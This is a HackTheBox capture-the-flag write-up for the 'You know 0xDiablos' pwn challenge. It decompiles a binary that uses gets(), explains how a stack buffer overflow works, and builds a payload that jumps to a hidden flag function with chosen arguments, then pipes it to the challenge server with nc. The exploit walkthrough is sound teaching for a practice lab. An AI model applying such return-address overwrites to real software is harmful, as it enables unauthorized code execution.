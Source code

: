 # [You know 0xDiablos](https://app.hackthebox.com/challenges/You%2520know%25200xDiablos) Writeup [HTB]
_Pwn_

## Analyzing the executable
The challenge provides a `vuln` executable file, not stripped. 

First, I try to run it. The program looks pretty simple: it reads a string from standard input, and then prints it back. This smells like stack buffer overflow...

I proceed to decompile it with Ghidra, and find 3 functions: `main`, `vuln` and `flag`.

```c
/* main function (simplified) */
int main(void) {
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}

/* vuln function */
void vuln(void) {
  char local_bc [180];
  gets(local_bc);
  puts(local_bc);
  return;
}

/* flag function (!!) */
void flag(int param_1,int param_2) {
  char flag_str [64];
  FILE *fp;
  
  fp = fopen("flag.txt","r");
  if (fp != NULL) {
    fgets(flag_str,64,fp);
    if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d')) {
      printf(flag_str);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
  exit(0);
}
```
Overall, the `vuln` function is the one responsible for reading the stdin message and printing it back. The `flag` function is the one I want to execute, but it doesn't appear anywhere in the control flow. This is where the stack buffer overflow comes in!

## Stack buffer overflow basics
Whenever a function is called, the instruction pointer value is pushed in the stack. This is known as the function's _return address_. Later on, when the function hits the `return` instruction, the address is popped out of the stack and used to set the instruction pointer value, to correctly resume the program's control flow.

The aim of a stack buffer overflow exploit is to rewrite the return address that is lying around in the stack. This way, I can force the program to execute whichever instruction I want! 

In this case, I want to set it to the entry point of `flag`. Needless to say, this requires _knowing_ the entry point of `flag`.
This is where my dearest `gdb` comes in action!

```sh
gef➤  info address flag
Symbol "flag" is at 0x80491e2 in a file compiled without debugging.
```

The second component I need for this attack is, well, a buffer we can overflow. This is pretty easy to spot. 
The `vuln` function allocates 180 bytes for the input message. However, it uses the `gets` function to read it, which doesn't make any kind of size check. As a consequence, I can input more than 180 characters and overflow the buffer.

Now it's time to study the stack and craft a payload!

## Getting to `flag`
When `gets` is called, the stack looks like this:

![Stack diagram](../figs/stack-1.jpg)

In order to overwrite the return address field, I first need to compute how much space is occupied by local variables and saved registers.
There is only one local variable, which is our buffer, and it's 180 B. As far as the registers are concerned, I can check them with `geff`:
```sh
gef➤  info frame
[...]
Saved registers:
  ebp at 0xffffcf68, eip at 0xffffcf6c
```
Since each register is 4 B, the total space before the return address is 188 B. After 188 B, I can write the `flag` address, without forgetting that the machine uses the Little Endian architecture. The buffer content will be the following:
```py
payload = (
    b'A' * 180 +
    b'REG1' +
    b'REG2' +
    b'\xe2\x91\x04\x08'
)
```
When inputting this payload to the program, I actually reach the `flag` function!

## Breaking the "if"
Executing `flag` is not enough to print the flag on screen. Let's recall the decompiled code:
```c
void flag(int param_1,int param_2) {
  /* [...] */
  if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d')) {
    printf(flag_str);
  }
  /* [...] */
}
```
In order to get to the flag, I need to pass some specific parameters to the function!

Whenever a function is called, its parameters are passed, yet again, through the stack. Specifically, when a function is called, the stack content is interpreted as follows:

![Stack when calling a function](../figs/stack-2.jpg)

This means we can set `param_1` and `param_2` to the correct values by simply adding them to our payload, taking care to leave 4 B for the return address.

```py
payload = (
    b'A' * 180 +
    b'REG1' +
    b'REG2' +
    b'\xe2\x91\x04\x08' +
    b'ADDR' +
    b'\xef\xbe\xad\xde' +
    b'\x0d\xd0\xde\xc0'
)
with open('payload.bin', 'wb') as f:
    f.write(payload)
```

Now that the payload is ready, we can use it to get the flag!
```sh
$ cat payload.bin | nc 94.237.49.219 51815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAREG1REG2ADDRﾭ�
HTB{XXX}
```
